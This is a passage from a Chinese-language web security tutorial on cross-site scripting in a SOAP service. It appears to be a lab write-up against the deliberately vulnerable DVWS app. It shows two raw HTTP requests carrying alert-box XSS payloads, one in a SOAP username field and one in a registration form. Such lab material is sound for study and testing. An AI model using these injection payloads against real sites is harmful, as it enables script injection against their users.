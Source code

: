 ### XSS攻击

跨站脚本(XSS)攻击发生在可能将恶意脚本注入应用程序并被受害者查看的地方，在SOAP中的XSS其实和传统的Web应用中的XSS也相差不大，只是数据包的构造方式有一些差别，在DVWS管理员用户搜索区域中存在XSS漏洞，我们可以发送HTML编码后的JavaScript到服务器端，例如：<script>alert(1)</script> ，如下是一个简易的发送示例：

```plain
POST /dvwsuserservice HTTP/1.1
Host: 192.168.204.160
Content-Length: 493
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
Authorization: Bearer null
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.204.160
Referer: http://192.168.204.160/admin.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">
   <soapenv:Header/>
   <soapenv:Body>
      <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">&lt;script&gt;alert(1)&lt;/script&gt;</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[![](assets/1705886707-4d6531b01d7623962bfaaa61bf74c7b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120115755-17ca82a6-b748-1.png)  
有时候我们也可以多留意一下注册类的接口：

```plain
POST /api/v2/users HTTP/1.1
Host: 192.168.204.160
Content-Length: 60
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=admin"><svg/onload=alert(/a/)>&password=12345678
```
